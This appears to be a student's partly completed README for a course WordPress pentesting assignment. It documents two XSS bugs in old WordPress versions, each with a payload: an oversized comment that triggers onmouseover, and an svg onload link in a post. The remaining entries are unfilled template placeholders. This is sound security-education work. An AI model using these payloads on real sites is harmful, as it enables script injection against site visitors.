# CodePath-Week-7
# Angie Vo (adv3ks)
# Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Unathenticated Stored XSS
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2 
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: ![unauthenticated stored xss](https://user-images.githubusercontent.com/18065015/38169116-084875f0-352f-11e8-9747-450b6a514fd5.gif)
  - [ ] Steps to recreate: Posted the following comment in Javascript and made the comment longer than 64 KB:
   ```
   <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
   ```
  - [ ] Affected source code: 
    - [Link 1](http://klikki.fi/adv/wordpress2.html)
1. (Required) Authenticated XSS
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.0
    - Fixed in version: 4.2.13
  - [ ] GIF Walkthrough: ![authenticated xss](https://user-images.githubusercontent.com/18065015/38175615-62ef801a-35ad-11e8-8247-c62b87310c66.gif)
  - [ ] Steps to recreate: Create or edit a post and post the following link into the text: `https://google.com<svg onload=alert("attack")>` 
  - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)
1. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
